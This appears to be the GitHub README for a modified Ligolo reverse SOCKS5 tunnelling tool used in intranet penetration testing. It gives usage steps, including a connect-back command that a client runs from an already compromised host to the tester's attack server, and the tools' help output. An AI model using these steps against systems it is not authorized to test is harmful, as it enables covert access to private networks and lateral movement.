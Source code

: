 # Ligolo: Reverse tunnel for intranet penetration

[![forthebadge](https://forthebadge.com/images/badges/made-with-go.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/gluten-free.svg)](https://forthebadge.com)

English | [简体中文](./README_ZH.md)

## introduce

The project is modified according to [ligolo](https://github.com/sysdream/ligolo), mainly for some functional tailoring, which is convenient to use.

**Ligolo** is a simple, lightweight reverse Socks5 proxy tool, all traffic is encrypted with TLS.

Its function is similar to *Autoroute + Socks4a* in *Meterpreter*, but it is more stable and faster.

## why you need this

When you have obtained the permission of a Windows / Linux / Mac host on the other party's intranet and the host can connect to the Internet.

At this point you want to establish a Socks5 proxy for the other party's intranet.

**Ligolo** can help you establish an agent to help you continue to penetrate the intranet.

> If the controlled host cannot access the Internet, you can try another tool [pystinger](https://github.com/FunnyWolf/pystinger)

## Instructions

### TL;DR

- Get the compiled binary file [release](https://github.com/FunnyWolf/ligolo/releases)

- In your VPS hosting.

```
./ligolos
```

- In the controlled intranet host.

```
> ligoloc.exe -s your-vps-ip:443
```

- After the connection is successfully established, the 127.0.0.1:1080 of the VPS has established the Socks5 proxy for the internal network of the controlled host.

### Detailed description

*Ligolo* contains two modules:

- ligolos (server)
- ligoloc (client)

*ligolos* runs on your VPS server (attack server).

*ligoloc* runs on an already controlled intranet host.

*ligolos* can use the default settings. It will listen on port 0.0.0.0:443 (for waiting for ligoloc connection) and 127.0.0.1:1080 (for socks5 proxy).

*ligoloc* The server address must be specified when running, using the parameter `-s your-vps-ip:443`.

You can use the `-h` parameter to view the help.

Once the connection between *ligolos* and *ligoloc* is established, you can use the intranet socks5 proxy of the VPS server `127.0.0.1:1080`.

### Options

*ligolos* options:

```
PS XXX\bin> .\ligolos_windows_amd64.exe -h
Usage of D:\Code\git\go\src\ligolo\bin\ligolos_windows_amd64.exe:
  -cert string
        The TLS server certificate,Unnecessary (default "cert.pem")
  -key string
        The TLS server key,Unnecessary (default "key.pem")
  -l string
        The relay server listening address (the connect-back address) (default "0.0.0.0:443")
  -s5 string
        The local socks5 server address (your proxychains parameter) (default "127.0.0.1:1080")
```

*ligoloc* options:

```
PS XXX\bin> .\ligoloc_windows_amd64.exe -h
Usage of D:\Code\git\go\src\ligolo\bin\ligoloc_windows_amd64.exe:
  -s string
        The relay server (the connect-back address) (default "example.com:443")
```

### Compile

Refer to the compilation method of the original ligolo

## Features

- TLS 1.3 encrypted tunnel
- Multi-platform (Windows / Linux / Mac /...)
- Multiple connection multiplexing (1 TCP connection transmits all traffic)
- SOCKS5 proxy

## To Do

- Better timeout mechanism
- SOCKS5 UDP support
- mTLS mutual authentication
- Reverse port mapping (mapping intranet port to internet)

## Licensing

GNU General Public License v3.0 (refer to LICENSING).

## Original author

* Nicolas Chatelain <n.chatelain -at- sysdream.com>